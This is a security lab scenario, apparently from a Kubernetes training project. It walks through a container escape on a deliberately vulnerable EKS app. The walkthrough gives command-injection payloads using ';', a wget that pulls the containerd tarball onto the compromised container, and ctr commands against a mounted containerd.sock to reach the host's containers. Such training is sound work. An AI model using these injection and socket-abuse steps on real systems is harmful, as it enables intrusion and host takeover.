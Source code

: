 # Scenario: ContainerD Abuse

## Prerequisites

- Vision One Container Security
- Playground One EKS Cluster
- Playground One Scenarios
  - Running app: System Monitor

Ensure to have the EKS Cluster including the Scenarios up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but heavily adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from the underlying container runtime. This has been exploited since the early days of the container ecosystem and even today we see these misconfigurations/use cases in the real world. 

By the end of the scenario, you will understand and learn the following:

- You will learn to test and exploit the container UNIX socket misconfigurations
- Able to exploit container and escape out of the container
- Learn about ContainerD
- Learn common misconfigurations in pipelines and CI/CD build systems

## The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit a very similar misconfiguration and gain access to the host system by escaping out of the container.

> ***Note:*** To get started with the scenario, navigate to `http://<loadbalancer_dns_health_check>`

## Goals

The goal of this scenario is to escape out of the running container to the host system where the container is running and able to access and perform actions on the host system.

> ***Tip:*** If you are able to obtain containers running in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation, e.g. spinning up an additional container.

### Hints

<details>
<summary>Click here</summary>

✨ Do you know how to run multiple commands in Linux?
<br><br>
The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌
<br><br>
✨ Able to run system commands, not sure how to access containers?
<br><br>
Identify the mounted UNIX socket volume, and use `ctr` binary to communicate with that with <b>-H</b> flag 🎉<br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

Start by checking that DNS resolution is working for your cluster. If this doesn't work, check to see if you have a DNS service like CoreDNS running on your cluster.

```bash
www.google.com
```

By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain.
<br><br>
It contains `/containerd.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

Wow! We can see the `/custom/containerd/containerd.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket via gRPC.
<br><br>
Note: We can use multiple methods for communicating with the `containerd.sock` UNIX socket. Some of them include [official containerd binary](https://containerd.io/downloads/), or a simple `grpcurl` program as well.
<br><br>
The easiest way to interact with containerd is to use the `ctr` command. We can download the official `ctr` static binary from the internet [https://containerd.io/downloads/](https://containerd.io/downloads/).
<br><br>
Then download the appropriate containerd binary to the container. We can use the following command (takes some time, be patient).

```bash
; wget https://github.com/containerd/containerd/releases/download/v1.6.20/containerd-1.6.20-linux-amd64.tar.gz -O /tmp/containerd-1.6.20.tgz
```

We can extract the binary from the `containerd-1.6.20.tgz` file so that we can use that to talk to the UNIX socket

```bash
; tar -xvzf /tmp/containerd-1.6.20.tgz -C /tmp/ bin/ctr
```

Now we can access the host system by running the following containerd commands with passing `containerd.sock` containerd's gRPC server. Let's check what is running from kubernetes.

```bash
; /tmp/bin/ctr -a /custom/containerd/containerd.sock -n=k8s.io containers ls
```

Hooray 🥳, now we can see that it has a lot of containers are running in the host system. We can now use different ctr commands to gain more access and further exploitation.
<br><br>
🎉 Success 🎉
<br><br>
If you'd like to create containers now, try it. Be beware of the fact that the design of containerd is that clients should be local to the daemon. Running a client in a container is effectively non-local without some very specific configuration (which will vary depending on what you are trying to do).

</details>

## References

- [Interacting with containerd runtime for kubernetes](https://www.vxav.fr/2021-09-13-interacting-with-containerd-runtime-for-kubernetes/)
